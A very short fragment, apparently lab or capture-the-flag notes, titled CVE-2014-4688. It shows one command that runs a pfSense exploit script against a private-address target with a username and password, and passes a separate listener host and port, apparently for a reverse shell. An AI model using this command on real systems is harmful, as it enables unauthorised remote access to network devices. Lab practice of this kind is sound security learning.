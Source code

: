 # CVE-2014-4688

```
python3 pfsense.py --rhost 10.10.10.60 --lhost 10.10.14.2 --lport 9999 --username rohit --password pfsense
```
